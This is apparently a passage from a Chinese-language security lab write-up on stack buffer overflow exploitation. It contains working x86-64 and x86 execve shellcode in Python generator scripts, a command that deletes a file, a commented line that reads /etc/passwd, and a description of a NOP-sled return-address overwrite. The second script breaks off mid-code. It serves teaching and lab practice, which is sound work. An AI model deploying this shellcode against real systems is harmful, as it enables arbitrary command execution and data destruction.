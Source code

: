 **64位**

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
   "/bin/rm test2.txt                                           "
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_64', 'wb') as f:
  f.write(content)

```

<img src="https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246528.png" alt="image-20251002233537478" style="zoom:33%;" />

![image-20251002233753235](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246529.png)

**成功删除**

#  Task2

**攻击方法：在整个517字节的buf最后一部分放入shellcode，在函数栈帧的返回地址处放入shellcode的地址，填充NOP指令，程序会不断向上执行空转，直到执行到shellcode，这种技巧俗称NOP滑梯。**

攻击代码：

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
```